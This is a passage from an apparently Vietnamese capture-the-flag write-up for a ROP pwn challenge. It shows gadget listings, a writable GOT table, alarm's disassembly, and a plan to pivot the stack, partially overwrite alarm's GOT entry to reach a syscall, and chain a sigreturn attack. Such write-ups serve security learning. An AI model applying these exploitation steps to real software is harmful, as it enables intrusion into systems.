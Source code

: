 ```cs
0x0000000000401000: endbr64; sub rsp, 8; mov rax, qword ptr [rip + 0x2fe9]; test rax, rax; je 0x3016; call rax;
0x0000000000401100: endbr64; ret;
0x00000000004010f5: hlt; nop word ptr cs:[rax + rax]; endbr64; ret;
0x0000000000401260: leave; ret;
0x0000000000401231: nop; pop rbp; ret;
0x000000000040125f: nop; leave; ret;
0x000000000040112f: nop; ret;
0x000000000040101a: ret;
0x00000000004010f1: sti; add byte ptr cs:[rax], al; hlt; nop word ptr cs:[rax + rax]; endbr64; ret;

103 gadgets found
```

- nó chỉ có ```setbuf``` ```alarm``` và các hàm này không thể leak được libc

```cs
gef> got
--------------------------------------------------------------------------------------------- PLT / GOT - /home/ploi/pwn/ascis-2024/ascis-pwn/ROP/chall_patched - Partial RELRO ---------------------------------------------------------------------------------------------
Name              | PLT            | GOT            | GOT value
--------------------------------------------------------------------------------------------------------------------------------- .rela.dyn ---------------------------------------------------------------------------------------------------------------------------------
__libc_start_main | Not found      | 0x000000403ff0 | 0x7ffff7dbbdc0 <__libc_start_main>
__gmon_start__    | Not found      | 0x000000403ff8 | 0x000000000000
--------------------------------------------------------------------------------------------------------------------------------- .rela.plt ---------------------------------------------------------------------------------------------------------------------------------
setbuf            | 0x000000401080 | 0x000000404018 | 0x7ffff7e19fe0 <setbuf>
alarm             | 0x000000401090 | 0x000000404020 | 0x7ffff7e7c540 <alarm>
read              | 0x0000004010a0 | 0x000000404028 | 0x7ffff7ea67d0 <read>
signal            | 0x0000004010b0 | 0x000000404030 | 0x7ffff7dd4420 <ssignal>
exit              | 0x0000004010c0 | 0x000000404038 | 0x000000401070 <.plt+0x50>
```

- truớc hết ta sẽ nghĩ đến việc stack pivot trước vì ta muốn đưa stack về dữ liệu mà ta control được
- thứ 2 là GOT ở bài này có thể ghi , vậy ta hoàn toàn có thể ```brute force``` nó thành 1 one_gadget đúng chứ?

- nếu ta đi sâu vào got của alarm ta có thể lấy có 1 lệnh syscall ở đây , vậy mình sẽ nghĩ đến chuyện overwrite các byte cuối và khi thực khi alarm thì nó sẽ thực thi ```syscall``` cho ta , ta có thể kết hợp với ```read``` để biến nó thành 1 ```sig_return``` 

```
gef> x/20i alarm
   0x7ffff7e7c540 <alarm>:      endbr64
   0x7ffff7e7c544 <alarm+4>:    mov    eax,0x25
   0x7ffff7e7c549 <alarm+9>:    syscall
   0x7ffff7e7c54b <alarm+11>:   cmp    rax,0xfffffffffffff001
   0x7ffff7e7c551 <alarm+17>:   jae    0x7ffff7e7c554 <alarm+20>
   0x7ffff7e7c553 <alarm+19>:   ret
   0x7ffff7e7c554 <alarm+20>:   mov    rcx,QWORD PTR [rip+0x12f8b5]        # 0x7ffff7fabe10
   0x7ffff7e7c55b <alarm+27>:   neg    eax
   0x7ffff7e7c55d <alarm+29>:   mov    DWORD PTR fs:[rcx],eax
   0x7ffff7e7c560 <alarm+32>:   or     rax,0xffffffffffffffff
   0x7ffff7e7c564 <alarm+36>:   ret
   0x7ffff7e7c565:      cs nop WORD PTR [rax+rax*1+0x0]
   0x7ffff7e7c56f:      nop
```
